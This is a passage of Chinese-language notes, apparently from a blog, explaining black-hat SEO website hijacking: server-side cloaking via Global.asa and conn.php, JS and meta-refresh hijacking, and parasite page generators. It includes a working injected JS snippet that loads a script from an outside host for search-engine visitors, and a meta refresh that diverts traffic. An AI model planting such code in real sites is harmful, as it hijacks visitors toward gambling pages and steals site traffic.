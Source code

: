 ##### 服务端劫持
服务端劫持也称为全局劫持，手法为修改网站动态语言文本，判断访问来源控制返回内容，从来达到网站劫持的目的。

asp/aspx/php劫持：

　　Global.asa、Global.asax、conn.asp、conn.php等文件比较特殊，作用是在每次执行一个动态脚本的时候，都会先加载该脚本， 然后再执行目标脚本。所以只要在 Global.asa 中写判断用户系统信息的代码（访问来源等），如果是蜘蛛访问则返回关键词网页（想要推广的网站），如果是用户访问，则返回正常页面。

##### 客户端劫持
客户端劫持的手法也很多，但主要就是2种：js劫持、Header劫持。

js劫持：

js劫持目的：通过向目标网页植入恶意js代码，控制网站跳转、隐藏页面内容、窗口劫持等。
js植入手法：可以通过入侵服务器，直接写入源代码中；也可以写在数据库中，因为有些页面会呈现数据库内容。

js劫持案例：

效果：通过搜索引擎搜索点击页面（执行一段js）跳转到博彩页面；直接输入网址访问网页，跳转到404页面。
代码：
```bash
today=new Date();
today=today.getYear()+"-"+(today.getMonth()+1)+"-"+today.getDate();
var regexp=/\.(sogou|so|haosou|baidu|google|youdao|yahoo|bing|gougou|118114|vnet|360|ioage|sm|sp)(\.[a-z0-9\-]+){1,2}\//ig;
var where =document.referer;
if(regexp.test(where)){
document.write ('<script language="javascript" type="text/javascript" src="http://www.xxx.com/test.js"></script>');
}
else
{
window.location.href="../../404.htm";
}
```
　　分析：通过referer判断来路，如果referer来路为空就是跳转到404页面，如果是搜索引擎来的referer里面也会有显示，然后在写代码控制跳转。如果只是控制实现显示不同的内容，可以修改php、asp代码；如果需要劫持搜索引擎搜索框，可以写JS代码来做浏览器本地跳转。当然js功能可以无限扩展，比如可以控制一个ip一天内第一次访问正常，其余访问跳转等等。

header劫持：

在源代码中写入以下代码：
```bash
<meta http-equiv="refresh" content="10; url=http://thief.one">
```
利用的就是Meta Refresh Tag（自动转向），将流量引走。


#### 直接篡改网页内容（比较低级）
　　有些黑客在入侵网站后，喜欢直接篡改网页内容，比如放上自己的qq号，或者作为推广将网页篡改成非法页面。在此我对此做法的黑客表示鄙视，因为这是一种最恶劣最低级的手法。恶劣在于直接篡改网页内容，可能会导致网站无法挽回的损失；低级在于此手法极易被发现，起不到真正的引流推广作用。

#### 利用高权重网站二级目录
　　即入侵网站后，在网站二级目录下创建很多自己做推广的页面。此种页面一般不会涉及跳转，但也有些为了隐藏自身会跟网页劫持相结合使用。为了达到引流的目的黑客往往需要建立大量的二级目录页面，因此需要用到寄生虫程序来自动化的创建页面。

### 寄生虫（jsc)
　　寄生虫是黑帽SEO常用的一种方法，通过侵入别人网站，植入寄生虫程序，自动生成各种非法页面。之所以叫做寄生虫是因为能够自己触发生成，而不是一次生成，例如在访问网页的时候触发，自动生成页面且形成链轮等。
